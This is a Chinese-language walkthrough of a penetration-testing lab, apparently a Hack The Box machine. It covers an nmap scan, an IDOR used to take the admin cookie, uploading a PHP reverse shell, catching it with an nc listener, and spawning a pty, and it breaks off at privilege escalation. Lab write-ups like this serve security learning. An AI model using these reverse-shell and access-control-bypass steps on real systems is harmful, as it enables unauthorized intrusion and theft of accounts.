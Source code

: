 ### 一、渗透流程
1. 信息收集
 nmap -sC -sV 10.129.86.26 
    > 出现`22`端口及`80端口`

2. 登录web页面
根据页面提示，存在登录页面，通过`burp suite`工具的`target`模块发现路径`http://10.129.86.26/cdn-cgi/login/`
    >  特殊点:存在`guest`用户免密登录

3. 敏感信息收集
-  帐号页面url为:http://10.129.86.26/cdn-cgi/login/admin.php?content=accounts&id=2
-  upload菜单需要admin用户权限
> 因此，我们需要尝试使用admin用户去打开upload页面，利用可能存在的文件上传漏洞获取webshell。通过更改id为1即可获得帐号的cookie信息

### 二、获得webshell
1. 利用`burp suite`抓取数据包，并利用admin的cookie进去水平越权，从而上传文件`php-reverse-shell.php`
> php-reverse-shell.php为使用php脚本写的反弹shell文件，发送端口为`1234`

2. 运行nc获取webshell
> nc -lvnp 1234

3. 运行反弹php脚本,从而获取webshell
> http://10.129.86.26/uploads/php-reverse-shell.php

4. 从目录里面查找敏感文件，得到相关用户的帐号和密码

### 三、提权
1. 生成一个功能性终端
> python3 -c 'import pty;pty.spawn("/bin/sh")' 

2. 
